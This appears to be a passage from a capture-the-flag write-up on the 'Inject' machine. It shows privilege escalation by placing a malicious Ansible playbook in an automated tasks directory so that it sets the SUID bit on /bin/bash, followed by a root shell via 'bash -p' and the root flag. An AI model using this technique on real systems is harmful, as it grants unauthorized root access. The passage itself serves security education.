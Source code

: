 
Before proceeding, let's look up `ansible` on the internet and check the [`playbook_1.yml`](./content/playbook_1.yml) format
```
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

According to the Ansible documentation, we can run commands! So, let's create an ```exploit.yml``` !
```
 hosts: localhost
 tasks:
 - name: Checking webapp service
   ansible.builtin.shell: chmod u+s /bin/bash
```
> This script will assign SUID permission to the shell, enabling us to gain root access!

Once the file is created in the `/opt/automation/tasks` directory, check periodically to see if the SUID privilege is set up in the bash by using:
```
phil@inject:/opt/automation/tasks$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Within 10 seconds (approx), we should see this
```
phil@inject:/opt/automation/tasks$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Now, let's get root access!
```
phil@inject:/opt/automation/tasks$ /bin/bash -p
bash-5.0# whoami
root
```

Finally, after gaining root access, we can check the (`root`)[./root.txt] flag !
```
bash-5.0# cat /root/root.txt
f8c8c8b90b95e35c53171e4c3acc0323
```

